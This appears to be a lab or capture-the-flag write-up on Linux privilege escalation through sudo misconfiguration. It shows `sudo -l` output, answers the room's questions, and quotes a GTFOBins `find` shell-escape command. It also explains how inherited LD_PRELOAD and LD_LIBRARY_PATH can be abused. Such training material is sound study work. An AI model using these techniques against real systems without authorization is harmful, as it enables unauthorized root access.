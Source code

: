 `sudo -l`

Visit GTFOBins (https://gtfobins.github.io) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.

Choose a program from the list and try to gain a root shell, using the instructions from GTFOBins.

For an extra challenge, try to gain a root shell using all the programs on the list!

Remember to exit out of the root shell before continuing!

How many programs is "user" allowed to run via sudo? 
11

```
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
user@debian:~$ 
```

One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?
Apache2

Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.


Sample: from GTFObins

```
Shell
It can be used to break out from restricted environments by spawning an interactive system shell.

find . -exec /bin/sh \; -quit
```


Sudo can be configured to inherit certain environment variables from the user's environment.

Check which environment variables are inherited (look for the env_keep options):

`sudo -l`

LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.
